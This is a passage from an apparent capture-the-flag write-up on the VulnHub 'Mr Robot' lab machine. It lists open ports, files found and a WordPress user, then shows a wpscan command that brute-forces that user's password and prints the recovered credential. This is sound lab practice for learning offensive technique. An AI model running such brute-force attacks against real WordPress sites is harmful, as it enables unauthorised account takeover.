 ![writeup.enumeration.steps.6.2](/static/files/posts_vulnhub_mrrobot1/screenshot04a.png.webp)  

### Findings
#### Open Ports
```
80/tcp   |  http      |  Apache httpd
443/tcp  |  ssl/http  |  Apache httpd
```
#### Files
```
http://192.168.92.134/robots.txt
http://192.168.92.134/key-1-of-3.txt
```
#### Users
```
wordpress: elliot
```

## Phase #2: Exploitation
1\. We confirm that the username is indeed valid from Wordpress error message for incorrect password. We then use `wpscan` to bruteforce password for user `elliot` using the trimmed dictionary file and find a match:  
```
wpscan --url http://192.168.92.134 -P fsocity.dic.trimmed -U elliot
  [i] Valid Combinations Found:
   | Username: elliot, Password: ER28-0652
```
